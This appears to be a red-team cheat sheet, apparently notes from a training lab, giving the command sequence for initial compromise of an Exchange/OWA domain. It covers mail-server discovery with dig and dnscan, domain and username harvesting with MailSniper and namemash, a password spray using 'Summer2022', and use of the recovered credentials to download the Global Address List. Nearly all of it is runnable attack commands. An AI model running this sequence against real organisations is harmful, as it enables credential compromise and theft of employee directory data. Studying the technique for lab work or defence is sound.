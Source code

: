 # Initial Compromise

Enumerating Outlook Web Access (OWA) to identify valid user and conducting password spray attack

# Identify the mail server of given domain

    $ dig cyberbotic.io
    $ ./dnscan.py -d cyberbotic.io -w subdomains-100.txt

# Idenitfy the NETBIOS name of target domain

    ps> ipmo C:\Tools\MailSniper\MailSniper.ps1
    ps> Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io

# Extract Employee Names (FirstName LastName) and Prepare Username List

    $ ~/namemash.py names.txt > possible.txt

# Validate the username to find active/real usernames

    ps> Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt

# Conduct Password Spraying attack with known Password on identified users

    ps> Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022

# Use Identified credentials to download Global Address List

    ps> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt
